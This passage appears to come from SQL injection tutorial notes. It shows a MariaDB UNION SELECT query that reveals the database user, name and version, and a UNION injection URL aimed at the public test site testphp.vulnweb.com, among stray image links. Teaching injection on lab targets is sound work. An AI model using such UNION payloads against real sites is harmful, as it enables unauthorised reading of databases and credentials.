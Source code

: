      MariaDB [dark]> select * from login union select user(),database(),version(),4;
     +----------------+---------+-----------------+-------------+
     | id             | name    | password        | country     |
     +----------------+---------+-----------------+-------------+
     | 1              | Sherwin | 12345           | Philippines |
     | root@localhost | dark    | 10.4.17-MariaDB | 4           |
     +----------------+---------+-----------------+-------------+
     2 rows in set (0.001 sec)
     ```


http://testphp.vulnweb.com/listproducts.php?cat=2%20union%20select%201,2,3,4;

![image-20211013143111105](images/image-20211013143111105.png)
